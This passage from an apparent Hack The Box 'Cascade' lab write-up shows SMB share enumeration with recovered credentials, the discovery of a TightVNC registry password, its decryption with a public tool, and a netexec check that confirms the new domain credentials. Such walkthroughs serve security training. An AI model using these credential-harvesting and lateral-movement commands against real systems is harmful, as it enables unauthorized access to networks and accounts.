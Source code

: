 Looks like they're still valid credentials.  Let's keep seeing what we can do.

### SMB (again)

```sh
┌──(pl4stic㉿kali)-[~/htb/cascade]
└─$ smbclient -L \\\\10.129.145.225\\ -U r.thompson%'rY4n5eva'

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        Audit$          Disk      
        C$              Disk      Default share
        Data            Disk      
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        print$          Disk      Printer Drivers
        SYSVOL          Disk      Logon server share
```

And now we see a share titled `Data`. After connecting, we have access to the following files:
* `\IT\Email Archives\Meeting_Notes_June_2018.html`
	* Temporary account, username is `TempAdmin` (same pass as normal admin).
* `\IT\Logs\Ark AD Recycle Bin\ArkAdRecycleBin.log`
* `\IT\Logs\DCs\dcdiag.log`
* `\IT\Temp\s.smith\VNC Install.reg`
	* `TightVNC`
	* `"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f`
	* `"RfbPort"=dword:0000170c`
	* `"HttpPort"=dword:000016a8`

### VNC Password

Converting the VNC password hex into ASCII gives us a bunch of jibberish, maybe ciphertext. After a few Google searches, turns out that's what it is. A few more Google searches led me to this [tool](https://github.com/jeroennijhof/vncpwd) to help decrypt it.

```sh
┌──(pl4stic㉿kali)-[~/htb/cascade]
└─$ echo "6bcf2a4b6e5aca0f" | xxd -r -p > vnc_pass.enc

┌──(pl4stic㉿kali)-[~/htb/cascade]
└─$ /opt/vncpwd/vncpwd vnc_pass.enc 
Password: sT333ve2
```

Guessing since we found this in `s.smith`'s folder, the password might belong to him.

```sh
┌──(pl4stic㉿kali)-[~/htb/cascade]
└─$ netexec smb 10.129.145.225 -u s.smith -p 'sT333ve2'  
SMB    10.129.145.225  445    CASC-DC1       [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB    10.129.145.225  445    CASC-DC1       [+] cascade.local\s.smith:sT333ve2
```
